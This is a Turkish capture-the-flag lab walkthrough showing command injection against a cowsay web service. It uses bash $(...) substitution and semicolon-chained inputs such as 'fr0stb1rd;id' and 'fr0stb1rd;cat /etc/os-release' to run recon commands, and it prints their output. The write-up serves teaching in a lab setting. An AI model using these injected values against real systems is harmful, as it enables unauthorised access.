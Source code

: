 
Şimdi, **bash** içinde yer alan "inline komutları" kullanarak bu açığı sömürelim. **Bash**, komut içinde komut çalıştırmayı destekler. Bunun için aşağıdaki formatı kullanırız:

```bash
$(komut_buraya)
```

Örneğin:

```bash
echo $(whoami)
```

Bu komut `whoami` komutunun çıktısını alır ve `echo` komutuna parametre olarak verir:

![](https://i.ibb.co/6J8Y69pt/10-0000.png)

Aynı yöntemi **cowsay** sunucusunda kullanabiliriz:

![Payload Gönderme](https://i.ibb.co/HD3DKGMy/10-2.png)

Bu yöntemi kullanarak aşağıdaki komutları deneyebilirsiniz:

- `whoami`
- `id`
- `ifconfig` veya `ip addr`
- `uname -a`
- `ps -ef`

Deney yapmak için makinamızı çalıştırıp inceleme yapalım.

### Bayrak Yakalamaca

- Önceki bilgilerimize dayanarak deneme yapalım:

  ![](https://i.ibb.co/VWGgYhrv/10-1.png)

- Kim olduğumuzu görmeye çalışalım. Üstte anlatılan haricinde bir yol deneyelim: `fr0stb1rd;id`

  ![](https://i.ibb.co/mVYsZYq1/10-2.png)

  `apache` kullanıcısıyız. Bir bayrağı yakaladık.

- Bulunduğumuz dizini listeleyelim: `fr0stb1rd;ls`

  ![](https://i.ibb.co/6kJ7VHH/10-3.png)

  `drpepper.txt` ilginç bir dosya. Bayrağımızın biri bu.

- İşletim sistemi detaylarına bakalım: `fr0stb1rd;cat /etc/os-release`

  ![](https://i.ibb.co/Hf409X8b/10-4.png)

  ```bash
  < fr0stb1rd >
  ----------- 
          \   ^__^
          \  (oo)\_______
              (__)\       )\/\
                  ||----w |
                  ||     ||
  NAME="Alpine Linux"
  ID=alpine
  VERSION_ID=3.16.0
  PRETTY_NAME="Alpine Linux v3.16"
  HOME_URL="https://alpinelinux.org/"
  BUG_REPORT_URL="https://gitlab.alpinelinux.org/alpine/aports/-/issues"
  ```
